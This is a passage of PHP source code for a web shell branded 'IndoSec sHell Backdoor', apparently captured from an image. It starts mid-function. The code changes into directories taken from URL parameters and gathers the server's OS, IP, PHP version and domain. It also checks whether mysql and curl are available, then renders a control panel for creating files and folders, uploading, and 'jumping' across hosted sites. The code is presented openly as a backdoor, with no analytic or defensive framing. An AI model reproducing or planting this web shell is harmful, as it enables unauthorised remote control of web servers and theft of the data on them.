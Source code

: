         return $info;
    }
   
   
    if(isset($_GET['path'])){
        $path = $_GET['path'];
        chdir($path);
    }else{
        $path = getcwd();
    }
    $path = str_replace('\\','/',$path);
    $paths = explode('/',$path);
    if(isset($_GET['dir'])) {
        $dir = $_GET['dir'];
        chdir($dir);
    } else {
        $dir = getcwd();
    }
    $os = php_uname();
    $ip = gethostbyname($_SERVER['HTTP_HOST']);
    $ver = phpversion();
    $dom = $_SERVER['HTTP_HOST'];
    $dir = str_replace("\\","/",$dir);
    $scdir = explode("/", $dir);
    $mysql = (function_exists('mysql_connect')) ? "<font color=green>ON</font>" : "<font color=red>OFF</font>";
    $curl = (function_exists('curl_version')) ? "<font color=green>ON</font>" : "<font color=red>OFF</font>";
   
echo "
<html>
    <title>{ Simpel sHell }</title>
    <head>
        <meta name='viewport' content='widht=device-widht, initial-scale=1'>
        <link rel='stylesheet' href='https://stackpath.bootstrapcdn.com/bootstrap/4.3.0/css/bootstrap.min.css'>
        <link rel='stylesheet' href='https://use.fontawesome.com/releases/v5.7.1/css/all.css' integrity='sha384-fnmOCqbTlWIlj8LyTjo7mOUStjsKC4pOpQbqyi7RrhN7udi9RwhKkMHpvLbHG9Sr' crossorigin='anonymous'>
        <link rel='stylesheet' href='https://code.jquery.com/jquery-3.3.1.js'>
    </head>
    <body class='bg-dark text-light'>
        <style>
            #tab tr:hover{
                background-color: #5B6F7D;
            }
        </style>
        <div class='container'>
            <h1 style='text-align:center'>{ IndoSec }</h1>
            <center><h5>sHell Backdoor</h5></center>
            <hr/>
            <center><div class='form-group'>
                <a href='?' class='btn btn-success btn-sm'><i class='fa fa-home'></i> Home</a>
                <a href='?keluar' class='btn btn-success btn-sm'><i class='fa fa-sign-out-alt'></i> keluar</a>
            </div>
            <div class='form-group'>
                <a href='?dir=$dir&aksi=buat_file' class='btn btn-danger btn-sm'><i class='fa fa-plus-circle'></i> Buat File</a>
                <a href='?dir=$dir&aksi=buat_folder' class='btn btn-danger btn-sm'><i class='fa fa-plus'></i> Buat Folder</a>
            </div>
            <div class='form-group'>
                <a href='?dir=$dir&aksi=upload' class='btn btn-success btn-sm'><i class='fa fa-upload'></i> Upload</a>
                <a href='?dir=$dir&aksi=jumping' class='btn btn-success btn-sm'><i class='fa fa-exclamation'></i> Jumping</a>